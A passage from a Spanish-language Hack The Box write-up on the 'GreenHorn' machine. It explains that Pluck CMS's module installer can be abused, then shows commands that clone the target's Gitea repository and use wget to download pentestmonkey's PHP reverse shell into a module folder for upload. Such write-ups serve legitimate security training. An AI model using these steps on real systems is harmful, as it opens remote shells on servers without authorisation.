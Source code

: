 La vulnerabilidad permite la instalación de módulos personalizados a través de la sección "Install Modules". Esta funcionalidad es explotable al cargar un módulo malicioso que contenga una reverse shell.

![](/assets/img/htb-writeup-greenhorn/greenhorn2_3.png)

Preparación del módulo malicioso

* Primero, clono el repositorio 'GreenHorn' desde el servicio Gitea que encontré corriendo en el puerto 3000. Esto me permite trabajar con una copia del módulo existente.
* Dentro del repositorio clonado, navego hasta la carpeta del módulo contactform, que es un módulo funcional de Pluck. Allí, descargo una reverse shell PHP.

<https://github.com/pentestmonkey/php-reverse-shell>

```terminal
/home/kali/Documents/htb/machines/greenhorn:-$ git clone http://greenhorn.htb:3000/GreenAdmin/GreenHorn.git

/home/kali/Documents/htb/machines/greenhorn/GreenHorn/data/modules/contactform:-$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

